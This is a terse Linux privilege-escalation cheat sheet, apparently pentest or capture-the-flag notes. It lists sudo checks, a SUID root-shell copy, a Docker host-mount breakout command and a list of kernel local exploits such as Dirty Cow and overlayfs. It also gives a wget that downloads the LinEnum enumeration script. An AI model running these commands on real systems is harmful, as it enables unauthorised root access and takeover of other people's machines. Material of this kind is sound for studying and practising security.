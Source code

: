 				Sudo 
Can you su without a password?		       su root
are you already a sudo user?			   sudo su -
what can we run with sudo?			  sudo -l

				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				/etc/shadow overwrite

				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				Local Exploits
kernel 2.4.x / 2.6.x (sock_sendpage 1)
kernel 2.4 / 2.6 (sock_sendpage 2)
kernel < 2.6.22 (ftruncate)
kernel < 2.6.34 (cap_sys_admin)
kernel 2.6.27 < 2.6.36 (compat)
kernel < 2.6.36-rc1 (can bcm)
kernel <= 2.6.36-rc8 (rds protocol)
kernel < 2.6.36.2 (half nelson)
kernel <= 2.6.37 (full nelson)
kernel 2.6 (udev)
kernel 3.13 (sgid)
kernel 3.13.0 < 3.19 (overlayfs 1)
kernel 3.14.5 (libfutex)
kernel 2.6.39 <= 3.2.2 (mempodipper)
kernel 2.6.28 / 3.0 (alpha-omega)
kernel 2.6.22 < 3.9 (Dirty Cow)
kernel 3.7.6 (msr)
kernel < 3.8.9 (perf_swevent_init)
kernel <= 4.3.3 (overlayfs 2)
kernel 4.3.3 (overlayfs 3)
kernel 4.4.0 (af_packet)
kernel 4.4.x (double-fdput)
kernel 4.4.0-21 (netfilter)
kernel 4.4.1 (refcount)

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/
